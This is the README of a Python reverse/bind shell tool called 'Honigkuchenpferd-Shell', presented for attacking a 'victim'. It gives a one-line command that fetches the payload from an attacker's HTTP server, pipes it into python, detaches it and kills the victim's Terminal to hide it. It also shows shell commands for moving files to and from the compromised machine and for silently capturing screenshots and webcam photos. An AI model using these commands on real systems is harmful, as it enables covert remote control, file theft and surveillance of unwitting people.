

# Honigkuchenpferd-Shell

free to use but doesn't mess up mmmkay !

Simple Reverse and Bind Shell

python2.7 and python3

## Server
```
/bin/python3 -m http.server 8080
```
```
/bin/python3 srv.py
```
## Victim
```
curl -s http://<IP>:8080/Honigkuchenpferd.py | /usr/bin/python  & disown; killall Terminal
```


## download File
```
[Honigkuchenpferd /home/Doofy/Dokumente/sus_stuff] download sus_text.txt
```
## upload File
```
[Honigkuchenpferd /home/Doofy/Dokumente/sus_stuff] upload sus_prog.bin
```


## macOS:
### Screenshot
```
screencapture -x /tmp/screenshot.jpg
```
## ffmpeg:
### Screenshot
```
ffmpeg -f x11grab -framerate 1 -i :0.0 -vframes 1 screenshot.jpg
```
### Selfie
```
#Selfie
ffmpeg -f video4linux2 -s 640x480 -i /dev/video0 -ss 0:0:1 -frames 1 /tmp/selfie.jpg
```
